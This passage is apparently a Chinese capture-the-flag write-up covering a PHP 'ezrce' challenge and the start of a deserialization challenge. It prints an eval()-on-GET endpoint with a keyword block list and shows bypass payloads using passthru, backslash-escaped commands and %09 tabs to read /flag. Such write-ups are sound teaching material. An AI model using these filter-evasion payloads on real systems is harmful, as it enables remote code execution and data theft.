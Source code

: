 保存后过一会儿刷新一下，打开 flag 文件即可得到 flag

## 7.[web]ezrce

打开网站发现源码：

```
<?php

error_reporting(0);

if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];

    if (preg_match("/flag|cat|ls|echo|php|bash|sh|more| |less|head|tail|[\|\&\>\<]|eval|system|exec|popen|shell_exec/i", $cmd)) {
        die("Blocked by security filter!");
    } else {
        eval($cmd);
    }
} else {
    highlight_file(__FILE__);
}
?>

```

审计代码，发现/flag 被屏蔽了，且禁止使用 system，cat 和空格等。

因为不能使用 system 函数和空格，所有用 passthru 代替 system；用%09 代替空

格，输入:?cmd=passthru("l\s%09/")。得到：bin dev etc flag home lib media

mnt opt proc root run run.sh sbin srv sys tmp usr var

因为 cat 和 tac 被过滤，所有可以使用反斜杠绕过，又因为 flag 不能过滤，所

以 cat f*，打开所有 f 开头的文件。输入：?cmd=passthru("c\at%09/f*");

得到 flag。

## 8.[web]天命人

打开网站得到一段代码：

```
<?php
error_reporting(0);

# 帮天命人搜集法宝，重获齐天之姿！
class Wuzhishan{
    public $wu="俺老孙定要踏破这五指山！<br>";
    public $zhi;
    public $shan;

    function __get($j)
    {
        echo "此地阴阳二气略显虚浮，加上刚刚带入的阳气，或可借此遁逃！<br>";
        $yin="s214587387a";
        $yang=$_GET['J'];
        if (md5($yin)==$yang&&md5($yin)==md5($yang)){
            echo "哦？又一个不信天命之人？行了，拿了东西速速离开吧<br>";
            system('cat /flag');
        }
    }
}
class Huoyanjinjing{
    public $huoyan;
```